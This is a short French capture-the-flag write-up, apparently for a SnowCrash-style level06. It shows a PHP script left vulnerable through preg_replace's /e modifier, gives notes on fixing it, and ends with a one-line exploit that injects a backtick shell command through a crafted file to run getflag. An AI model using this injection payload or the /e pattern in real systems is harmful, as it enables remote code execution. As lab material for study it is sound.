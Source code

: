 ## Défi 6  php script + Eploit = **les variables dynamiques** et **l'exécution de commandes système**

### Commandes réalisées

```bash
cat level06.php
```

### The Outputs
#### level.php
* 
```php
#!/usr/bin/php
# replace . with x and @ with y
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
# read file y, replace [x ...] by y( .*) replace [ and ] with a
# cmd exploit will be executed when y is called
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // Substitue les motifs et exécute 'y' sur le contenu extrait ;(.x) -> tout ce qu' il y a entre [x et ] /e -> exexcute le code reçu comme du code php  ; \2 = le groupe capturé 
    $a = preg_replace("/\[/", "(", $a); // Remplace '[' par '(
    $a = preg_replace("/\]/", ")", $a); // Remplace ']' par ')'
    return $a;
}
# calls x function with the two command line argument
$r = x($argv[1], $argv[2]);
print $r;
?>
```

**Les backticks (\`) permettent d'exécuter une commande système**

* **Éviter `/e`** : Cette option est dépréciée à partir de PHP 5.5 et complètement supprimée depuis PHP 7.0. **le texte de remplacement n'est pas traité comme une simple chaîne, mais est interprété et exécuté comme du code PHP  

* Les backticks (`\`...``) sont considérés comme obsolètes dans PHP moderne. Il est recommandé d'utiliser la fonction` shell_exec()`ou`exec()` à la place.  

* preg_replace_callback -> safer

### Exploit
```bash
echo '[x ${`getflag`}]' > /tmp/flag06  ; ./level06 /tmp/flag06
```

